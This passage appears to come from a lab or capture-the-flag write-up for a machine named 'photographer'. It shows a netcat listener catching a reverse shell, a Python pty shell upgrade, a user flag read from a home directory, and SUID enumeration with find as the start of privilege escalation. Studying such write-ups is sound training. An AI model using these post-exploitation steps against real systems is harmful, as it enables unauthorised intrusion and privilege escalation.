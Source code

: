 nc -nvlp 8080

listening on [any] 8080 ...

connect to [192.168.211.143] from (UNKNOWN) [192.168.211.152] 52948

Linux photographer 4.15.0-107-generic \#108\~16.04.1-Ubuntu SMP Fri Jun 12
02:57:13 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux

05:22:39 up 51 min, 0 users, load average: 0.00, 0.00, 0.00

USER TTY FROM LOGIN\@ IDLE JCPU PCPU WHAT

uid=33(www-data) gid=33(www-data) groups=33(www-data)

/bin/sh: 0: can't access tty; job control turned off

\$ python -c "import pty; pty.spawn('/bin/bash')"

www-data\@photographer:/\$ ls /home

ls /home

agi daisa lost+found

www-data\@photographer:/\$ cat /home/daisa/user.txt

cat /home/daisa/user.txt

d41d8cd98f00b204e9800998ecf8427e

Privilege Escalation
--------------------

#### Enumeration

Find utility was used to discover SUID files, with one of them being
/usr/bin/php7.2.

www-data\@photographer:/\$ find / -perm -u=s -type f 2\>/dev/null

find / -perm -u=s -type f 2\>/dev/null

/usr/lib/dbus-1.0/dbus-daemon-launch-helper

/usr/lib/eject/dmcrypt-get-device

/usr/lib/xorg/Xorg.wrap

/usr/lib/snapd/snap-confine

/usr/lib/openssh/ssh-keysign

/usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox

/usr/lib/policykit-1/polkit-agent-helper-1

/usr/sbin/pppd

/usr/bin/pkexec

/usr/bin/passwd

/usr/bin/newgrp
